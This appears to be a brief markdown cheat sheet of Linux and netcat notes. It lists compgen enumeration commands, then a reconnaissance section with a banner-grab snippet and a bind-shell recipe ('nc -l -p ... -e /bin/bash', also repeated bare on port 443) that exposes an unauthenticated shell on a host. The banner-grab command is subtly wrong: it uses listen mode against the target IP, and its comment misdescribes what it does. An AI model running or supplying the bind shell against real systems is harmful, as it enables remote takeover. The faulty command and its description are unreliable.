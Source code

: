 # Linux  
Oh dear Linux... The tools of Titans!  
```sh
compgen -c # Will list all the commands you could run.
compgen -a # Will list all the aliases you could run.
compgen -b # Will list all the built-ins you could run.
compgen -k # Will list all the keywords you could run.
compgen -A function # Will list all the functions you could run.
```
# Reconnaissance  
## Netcat is not Ncat
Fun not-a-fact: Ncat comes from Nmap according to a post on a forum.
- Banner
```sh
# Print the banner of a webserver
nc -l $target_ip 80
```  
and then as a payload
```http
HEAD / HTTP/1.0
```
- Spawn a shell
```sh
port_number=$1
nc -l -p $port_number -e /bin/bash
```
nc -l -p 443 -e /bin/bash